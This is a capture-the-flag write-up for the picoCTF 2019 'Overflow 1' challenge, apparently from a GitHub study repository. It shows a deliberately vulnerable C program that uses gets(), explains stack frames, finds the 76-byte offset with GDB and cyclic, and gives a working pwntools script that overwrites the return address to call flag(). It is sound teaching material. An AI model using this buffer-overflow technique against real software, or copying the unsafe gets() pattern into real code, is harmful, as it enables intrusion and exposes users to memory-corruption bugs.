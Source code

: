 [Back](PicoFrontPage.md)

# Overflow 1
---

### Intro
Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them.

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

#### Functions and Function Calls

When a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

<!-- Insert BasicCall -->
![BasicCall](../Images/PicoCTF2019/BasicCall.jpg)

### Analysis

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->
![infofunctions](../Images/PicoCTF2019/infofunctions.jpg)

If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->
![disasmain](../Images/PicoCTF2019/disasmain.jpg)

We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->
![disasvuln](../Images/PicoCTF2019/disasvuln.jpg)

If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
`NEVER USE THIS FUNCTION`

<!-- Screenshot of man page -->
![NOGETS](../Images/PicoCTF2019/NEVERUSETHISFUNCTION.jpg)

The reason why `gets()` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->
![StackOverflow1](../Images/PicoCTF2019/StackOverflow1.jpg)

And thus, we can see that the buffer is `0x44`, `$ebx` is `0x4`, `$ebp` is `0x4` and `$eip` is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except `$eip`), we can see that, to reach `$eip`, it is `0x4c` in hex.
Using Python on command line, we can see that `0x4c` translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->
![OverflowedOverflow1](../Images/PicoCTF2019/OverflowedOverflow1.jpg)

We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach `taaa` or the instruction pointer (`$eip`).
We get the output of 76 and that just confirms our static analysis.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

#### Pwntools

Here is the script:

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Back](PicoFrontPage.md)  [Overflow 2](overflow2writeup.md)
